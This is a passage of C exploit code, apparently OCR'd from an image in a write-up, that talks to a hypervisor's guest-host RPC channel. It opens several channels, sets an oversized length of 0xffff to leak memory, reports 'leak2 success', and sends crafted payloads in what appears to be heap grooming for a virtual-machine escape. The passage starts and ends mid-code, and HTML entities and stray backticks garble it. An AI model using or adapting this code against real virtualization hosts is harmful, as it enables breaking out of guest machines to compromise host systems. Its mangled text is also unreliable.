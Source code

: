 ```
    `}`
    channel_send_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s1),s1,&amp;res);
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&amp;len,&amp;res);
    if(!res)`{`
        printf("fail to recv data len\n");
        return;
    `}`
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i&lt;len+0x10;i+=4)`{`
        channel_recv_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,i,data,&amp;res);
    `}`
    printf("recv data:%s\n",data);
    channel_open(&amp;chan[1].cookie1,&amp;chan[1].cookie2,&amp;chan[1].num,&amp;res);
    if(!res)`{`
        printf("fail to open channel!\n");
        return;
    `}`
    channel_open(&amp;chan[2].cookie1,&amp;chan[2].cookie2,&amp;chan[2].num,&amp;res);
    if(!res)`{`
        printf("fail to open channel!\n");
        return;
    `}`
    channel_open(&amp;chan[3].cookie1,&amp;chan[3].cookie2,&amp;chan[3].num,&amp;res);
    if(!res)`{`
        printf("fail to open channel!\n");
        return;
    `}`
    //channel_recv_finish2(chan[0].cookie1,chan[0].cookie2,chan[0].num,&amp;res);
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,0xffff,&amp;res);
    if(!res)`{`
        printf("fail to recv finish2\n");
        return;
    `}`
    channel_set_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s3),&amp;res);
    if(!res)`{`
        printf("fail to set len\n");
        return;
    `}`
    printf("leak2 success\n");
    /***
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&amp;len,&amp;res);
    if(!res)`{`
        printf("fail to recv data len\n");
        return;
    `}`
    ***/
    //channel_recv_finish2(chan[0].cookie1,chan[0].cookie2,chan[0].num,&amp;res);
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,0xffff,&amp;res);
    if(!res)`{`
        printf("fail to recv finish2\n");
        return;
    `}`
    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,8,&amp;pay1,&amp;res);
    channel_set_len(chan[2].cookie1,chan[2].cookie2,chan[2].num,strlen(s3),&amp;res);
    if(!res)`{`
        printf("fail to set len\n");
        return;
    `}`
    channel_set_len(chan[3].cookie1,chan[3].cookie2,chan[3].num,strlen(s3),&amp;res);
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,8,&amp;pay2,&amp;res);
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,8,&amp;pay3,&amp;res);
```